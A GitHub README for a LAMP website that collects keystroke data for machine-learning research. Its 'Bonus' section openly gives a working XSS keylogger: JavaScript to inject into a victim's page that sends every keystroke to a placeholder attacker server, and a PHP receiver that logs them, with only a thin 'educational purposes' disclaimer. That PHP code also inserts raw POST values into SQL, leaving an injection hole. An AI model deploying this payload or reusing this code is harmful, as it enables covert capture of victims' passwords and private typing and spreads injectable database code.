

<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]

<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/reevesba/keystrokebiometrics.xyz">
    
  </a>

  <p align="center">
    Collects keystroke data using the LAMP stack. 
    <br />
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://keystrokebiometrics.xyz" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Report Bug</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Request Feature</a>
  </p>
</p>

<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>


<!-- ABOUT THE PROJECT -->
## About The Project


This simple website was created to collect keystroke data for another one of my projects. For each keystroke, a record is inserted into a MySQL table. Here is the table schema: 

<p align="center">
  <a href="#">
    
  </a>
</p>

This will be used to create machine learning models. My current plan is to use this data to create features for an unsupervised learning model where users will hopefully be separated into clusters. In addition, I will be collecting bot keystroke data to create a supervised learning model that will distinguish between bot and not bot.

### Built With
<a href="https://www.linuxfoundation.org/" target="_blank">
  
</a>
<a href="https://www.apache.org/" target="_blank">
  
</a>
<a href="https://www.mysql.com/" target="_blank">
  
</a>
<a href="https://www.php.net/" target="_blank">
  
</a>
<a href="https://www.javascript.com/" target="_blank">
  
</a>
<a href="https://getbootstrap.com/" target="_blank">
  
</a>

<br />
<br />

<!-- GETTING STARTED -->
## Getting Started
This repository can be cloned onto your server to quickly start collecting user keystroke information.

### Prerequisites
Configure your web server. Here are some useful articles for configuring a LAMP server. Of course, you have other options as well. 

- [Installing LAMP Stack on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-linux-apache-mysql-php-lamp-stack-ubuntu-18-04)
- [Securing Apache on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-secure-apache-with-let-s-encrypt-on-ubuntu-18-04)
[]()

### Installation
1. Clone the repo into your /var/www directory or virtual host directory.
   ```sh
   git clone https://github.com/reevesba/keystrokebiometrics.xyz
   ```
<!-- USAGE EXAMPLES -->
## Usage
The usage of this site is straighforward - use it to collect keystroke data. 

### Bonus
Portions of this project can be used to create a XSS keylogger. <strong>Any malicious use of this software is not recommended and should be for educational purposes only. Be sure to have the permission of all parties involved.</strong>

For an XSS keylogging attack, simply inject the following JavaScript into the victim's DOM.

<details>
<summary>View JavaScript</summary>

```
(function() {
    const url = 'https://yourserverurl/assets/php/keylogger.php?';
    const header = 'Content-type';
    const value = 'application/x-www-form-urlencoded';

    const postData = (event) => {
        // Create request object
        if (window.XMLHttpRequest) {
            var request = new XMLHttpRequest();
        } else {
            var request = new ActiveXObject('Microsoft.XMLHTTP');
        }

        // Setup transmit data
        var uuid = select('#uuid').value;
        var altKey = event.altKey ? 1 : 0;
        var ctrlKey = event.ctrlKey ? 1 : 0;
        var shiftKey = event.shiftKey ? 1 : 0;

        var data = 'uuid=' + uuid + 
                   '&keyEvent=' + event.type + 
                   '&keyCode=' + event.keyCode + 
                   '&keyChar=' + event.key + 
                   '&altKey=' + altKey + 
                   '&ctrlKey=' + ctrlKey + 
                   '&shiftKey=' + shiftKey + 
                   '&timestamp=' + new Date().getTime();

        // Uncomment to enable debugging
        //console.log(data);

        // Send data to server
        request.open('POST', url, true);
        request.setRequestHeader(header, value);
        request.onreadystatechange = function() {
            // Uncomment to enable debugging
            //console.log(this.responseText);
        }
        request.send(data);
    };

    window.addEventListener('keydown', (event) => {
        postData(event);
    });
})()
```
</details>

On your server, create a PHP file to recieve the data. I called mine keylogger.php, but you can name it whatever you want. Just be sure to update the URL in the JavaScript file. Add the following code to the file. As you may notice, you will need to to set a couple of environment variables with your MySQL credentials.

<details>
<summary>View PHP</summary>

```
<?php
// Establish database connection
$username = $_ENV['MYSQL_USER'];
$password = $_ENV['MYSQL_PASSWORD'];

$connection = mysqli_connect('localhost', $username, $password, 'production');

if (mysqli_connect_errno()) {
    echo "Failed to connect to MySQL: " . mysqli_connect_error();
}

// Collect post data
$uuid = $_POST['uuid'];
$keyEvent = $_POST['keyEvent'];
$keyCode = $_POST['keyCode'];
$keyChar = $_POST['keyChar'];
$altKey = $_POST['altKey'];
$ctrlKey = $_POST['ctrlKey'];
$shiftKey = $_POST['shiftKey'];
$timestamp = $_POST['timestamp'];

// Insert data
if (!mysqli_query($connection, "INSERT INTO KEYSTROKE_METRICS (`uuid`, `key_event`, `key_code`, `key_char`, `alt_key`, `ctrl_key`, `shift_key`, `timestamp`) VALUES ('$uuid', '$keyEvent', '$keyCode', '$keyChar', '$altKey', '$ctrlKey', '$shiftKey', '$timestamp')")) {
    echo("Error description: " . mysqli_error($connection));
}

// Close connection
mysqli_close($connection);
?>
```
</details>

<!-- ROADMAP -->
## Roadmap
See the [open issues](https://github.com/reevesba/keystrokebiometrics.xyz/issues) for a list of proposed features (and known issues).

<!-- CONTRIBUTING -->
## Contributing
Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/newFeature`)
3. Commit your Changes (`git commit -m 'adding new feature xyz'`)
4. Push to the Branch (`git push origin feature/newFeature`)
5. Open a Pull Request

<!-- LICENSE -->
## License
Distributed under the GPLv3 License. See `LICENSE` for more information.

<!-- CONTACT -->
## Contact
Bradley Reeves - reevesbra@outlook.com

Project Link: [https://github.com/reevesba/keystrokebiometrics.xyz](https://github.com/reevesba/keystrokebiometrics.xyz)

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[contributors-url]: https://github.com/reevesba/keystrokebiometrics.xyz/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[forks-url]: https://github.com/reevesba/keystrokebiometrics.xyz/network/members
[stars-shield]: https://img.shields.io/github/stars/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[stars-url]: https://github.com/reevesba/keystrokebiometrics.xyz/stargazers
[issues-shield]: https://img.shields.io/github/issues/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[issues-url]: https://github.com/reevesba/keystrokebiometrics.xyz/issues
[license-shield]: https://img.shields.io/github/license/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[license-url]: https://github.com/reevesba/keystrokebiometrics.xyz/blob/master/LICENSE.txt
